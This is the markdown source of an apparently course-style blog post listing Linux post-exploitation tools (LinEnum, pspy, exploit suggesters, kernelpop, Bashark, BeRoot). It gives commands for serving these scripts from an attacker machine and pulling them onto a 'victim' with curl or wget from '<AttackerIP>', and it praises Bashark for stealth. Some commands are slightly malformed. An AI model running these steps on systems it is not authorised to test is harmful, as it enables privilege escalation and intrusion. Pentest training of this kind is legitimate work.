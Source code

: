 ```yaml
---
layout: post
published: true
title: Linux Post Exploitation 10.3
tags:
  - PWP
  - Intermediate
  - Linux Post Exploitation
comments: true
---
```

## Linux Automated Scripts


## Introduction 

**_In this blog post, we will discuss some tools for performing our post-exploitation process, and save our time and efforts._**


## Post Enumeration Scripts 


**LinEnum.sh**

``
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
``

This script is used to perform Linux post enumeration/Local Linux enumeration and privilege escalation checks.

**How to use?** 

You need to download it in the target machine using wget or curl.

You can also use python, php, ruby, or nc to start HTTP static web server.

Python

``
python -m SimpleHTTPServer 8080
``

``
python3 -m http.server 80
``

PHP

``
php -S localhost:80
``

Ruby

``
ruby -run -ehttpd . -p80
``

Netcat

``
while true ; do nc -l 80 < LinEnum.sh
``

**Downloading using curl and wget**

``
curl -x -o LinEnum.sh http://<AttackerIP>/LinEnum.sh
``

wget

``
wget http://<AttackerIP>/LinEnum.sh
``

``
chmod +x LinEnum.sh
``

``
./LinEnum.sh
``

And it will automate the post enumeration process and give the valuable result


**Pspy**

This tool monitor's linux processes without root permissions  

Download its binary in your attacker system, start the local server as before, and download it in the victim's machine.

After download execute it and it will perform monitoring for you.


**Linux exploit suggestor**

https://github.com/InteliSecureLabs/Linux_Exploit_Suggester

Linux_Exploit_Suggester suggests exploits based on operating system release number, which helps the attacker to exploit the target.


**Searchsploit**
We have discussed this tool in previous phases, it can also help us to check particular exploit for the target.


**Kernelpop**

https://github.com/spencerdodd/kernelpop

kernel privilege escalation enumeration and exploitation framework.


download it from the link above

```
$ cd kernelpop
$ python3 kernelpop.py
```

It will automate kernel vulnerability enumeration and exploitation


**Bashark**

Bashark aids pen-testers and security researchers during the post-exploitation phase of security audits.
Usage

To launch Bashark on compromised host, simply source the bashark.sh script from the terminal: $ source bashark.sh Then type help to see Bashark's help menu

Features

* Single Bash script
* Lightweight and fast
* Multi-platform: Unix, OSX, Solaris, etc.
* No external dependencies
* Immune to heuristic and behavioral analysis
* Built-in aliases of often used shell commands
* Extends system shell with post-exploitation oriented functionalities
* Stealthy, with custom cleanup routine activated on exit
* Easily extensible (add new commands by creating Bash functions)
* Full tab completion

``
wget https://raw.githubusercontent.com/TheSecondSun/Bashark/master/bashark.sh
``

and simply run it

``
chmod +x bashark.sh
``

``
./bashark.sh
``

**Linuxprivchecker**

Enumerates system configurations and check for privilege escalation

wget //www.securitysift.com/download/linuxprivchecker.py

``
python3 linuxprivchecker.py
``

**linux-exploit-suggester-2**

Linux_Exploit_Suggester-2 is the extended version of previous Linux_Exploit_Suggester used to find linux privilege escalation vulnerabilities in system. 

``
git clone //github.com/jondonas/linux-exploit-suggester-2.git
``

``
cd linux-exploit-suggester-2
``

``
./linux-exploit-suggester-2.pl
``

**BeRoot**
Privilege Escalation Project - Windows / Linux / Mac 
BeRoot Project is a post exploitation tool to check common misconfigurations to find a way to escalate our privilege.
It has been added to the pupy project as a post exploitation module (so it will be executed in memory without touching the disk).

For now, we are using it for linux

Features of BeRoot:

* Check Files Permissions

* SUID bin

* NFS root Squashing

* Docker

* Sudo rules

* Kernel Exploit

``
wget https://raw.githubusercontent.com/AlessandroZ/BeRoot/master/Linux/beroot.py
``

``
chmod +x beroot.py
``

``
./beroot.py
``



## Conclusion 

_**We have discussed some automated scripts which can help us during post-exploitation. I suggest to check them in your system to know about their work.**_
